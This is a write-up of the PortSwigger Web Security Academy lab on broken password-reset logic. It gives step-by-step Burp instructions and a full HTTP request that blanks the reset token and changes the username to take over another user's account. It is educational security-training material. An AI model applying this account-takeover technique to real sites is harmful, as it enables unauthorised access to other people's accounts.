 # Password reset broken logic

## Description

[This lab](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic)'s password reset functionality is vulnerable.   

## Reproduction and proof of concept

1. With Burp running, click the **Forgot your password?** link and enter your own username `wiener`.
2. Click the **Email client** button to view the password reset email that was sent. Click the link in the email and reset your password to whatever you want.
3. In Burp, go to **Proxy -> HTTP history** and study the requests and responses for the password reset functionality. Observe that the reset token is provided as a URL query parameter in the reset email. Notice that when you submit your new password, the ``POST /forgot-password?temp-forgot-password-token`` request contains the username as hidden input. Send this request to Burp Repeater.
4. In Burp Repeater, observe that the password reset functionality still works even if you delete the value of the `temp-forgot-password-token` parameter in both the URL and request body. This confirms that the token is not being checked when you submit the new password.
5. In your browser, request a new password reset and change your password again. Send the ``POST /forgot-password?temp-forgot-password-token`` request to Burp Repeater again.
6. In Burp Repeater, delete the value of the ``temp-forgot-password-token`` parameter in both the URL and request body. Change the ``username`` parameter to ``carlos``. Set the new password to whatever you want and send the request.

```text
POST /forgot-password?temp-forgot-password-token= HTTP/1.1
Host: 0a5f002304096594c337933500940061.web-security-academy.net
Cookie: session=3c30RQATbFCz0qgpaKc45Qm5ajYc2omq
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Origin: https://0a5f002304096594c337933500940061.web-security-academy.net
Referer: https://0a5f002304096594c337933500940061.web-security-academy.net/forgot-password?temp-forgot-password-token=NiIOxWb7H8DwNylBdVs7GCoMgHObA4ii
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

temp-forgot-password-token=&username=carlos&new-password-1=whatever&new-password-2=whatever
```

7. In your browser, log in to Carlos's account using the new password you just set. Click **My account** to solve the lab.

## Exploitability

An attacker will need to reset Carlos's password then log in and access his **My account** page.
